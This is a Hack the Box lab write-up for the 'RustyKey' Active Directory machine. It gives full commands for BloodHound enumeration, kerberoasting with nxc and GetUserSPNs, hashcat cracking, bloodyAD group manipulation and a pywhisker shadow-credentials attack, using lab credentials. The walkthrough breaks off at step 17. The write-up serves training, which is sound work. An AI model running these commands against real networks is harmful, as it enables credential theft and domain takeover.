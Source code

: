 # RustyKey

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Hard**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

![image](https://github.com/user-attachments/assets/483ca663-e7d2-4944-b26e-5564e6d92d2d)

2. Run bloodhound using given credentials `rr.parker:8#t5HE8L!W3A`

![image](https://github.com/user-attachments/assets/3874dc11-7171-4dd9-9f61-b3472efb00f8)

3. We get an error with LDAP saying it can't find dc.rustykey.htb so add that to `/etc/hosts` file and try again.

`sudo bloodhound-python -d rustykey.htb -u rr.parker -p "8#t5HE8L\!W3A" -ns 10.129.63.201 -c all`

4. With bloodhound, we find the path to user is through nn.marcos user

![image](https://github.com/user-attachments/assets/22162d58-fed1-421d-a1e1-36a639eef6ba)

5. However, with rr.parker, there is no way to nn.marcos. After much enumeration and dead ends, we try kerberoasting to gain initial access. But we get no results for it

`nxc ldap dc.rustykey.htb -u rr.parker -p "8#t5HE8L\!W3A" -k --kerberoasting kerberoast.txt`

![image](https://github.com/user-attachments/assets/f06dbd5b-a301-42a9-9034-1a996a147349)

6. Running it again with the debug flag this time, we see that by default, nxc searches only for computers. We change the filter to look for users instead and try again.

![image](https://github.com/user-attachments/assets/1bca6dc5-6fa5-4fc6-aa8b-afbfba610c98)

7. Kerberoasting successful! We got a hash

![image](https://github.com/user-attachments/assets/e4d8528d-03cd-468e-bbde-3ae0a0f6c1df)

8. Crack offline with hashcat

`hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt`

9. Hash doesn't crack, so we try kerberoasting with a different method. First, enumerate all usernames with ldapsearch

`ldapsearch -x -H ldap://rustykey.htb -D 'rr.parker@rustykey.htb' -w '8#t5HE8L!W3A' -b "DC=rustykey,DC=htb" "(objectCategory=*)" sAMAccountName | grep '^sAMAccountName:' | cut -d' ' -f2 > accountList`

![image](https://github.com/user-attachments/assets/2f6787e2-1765-4f50-b0d9-c30819116bb2)

10. Then try kerberoasting using impacket's GetUserSPNs.py script using the `-usersfile` flag

`GetUserSPNs.py -usersfile accountList -request -k -dc-ip 10.129.244.92 -dc-host dc.rustykey.htb rustykey.htb/rr.parker:"8#t5HE8L\!W3A" -outputfile kerberoast.txt`

![image](https://github.com/user-attachments/assets/dd7e5e13-5d06-4055-b210-bd046e3d64da)

11. Kerberoasting is a success and we get back 17 hashes. Try cracking them offline once more using hashcat

`hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt`

![image](https://github.com/user-attachments/assets/f791b6a7-ae86-412b-a5ed-ea7dbfe78616)

12. Got the password for machine account IT-Computer3$. Now, check bloodhound and see if there's a path to the machine with this account

![image](https://github.com/user-attachments/assets/61ed86ed-c04a-4ecc-8e1d-e017673e08d4)

13. Yes, there is! So our game plan now will be to add the IT-Computer3$ account to the Helpdesk group, which can change BB.Morgan's password. This will give us access to the DC.Rustykey.htb machine!

14. Add IT-Computer3$ to Helpdesk group via bloodyAD

`sudo python3 /opt/bloodyAD/bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-Computer3$' -p 'Rusty88!' add groupMember Helpdesk 'IT-Computer3$'`

![image](https://github.com/user-attachments/assets/bc7eb631-1379-4863-89ff-9d9dc105ffdf)

15. Using IT-Computer3$, which has GenericWrite on dd.ali, do shadow credential attack using pywhisker script

![image](https://github.com/user-attachments/assets/990c4f98-5ab8-4583-980c-9e4094380a24)

16. Doesn't work initially, so look at pywhisker.py source code and debug/troubleshoot. Then try again and success!

`sudo python3 /opt/pywhisker/pywhisker/pywhisker.py --dc-ip dc.rustykey.htb -u 'IT-Computer3$' -p 'Rusty88!' -k --target "dd.ali" --action "add" -f dd.ali -p Password123 -d rustykey.htb`

17. Using shadow credential, attempt to get TGT as dd.ali user

``




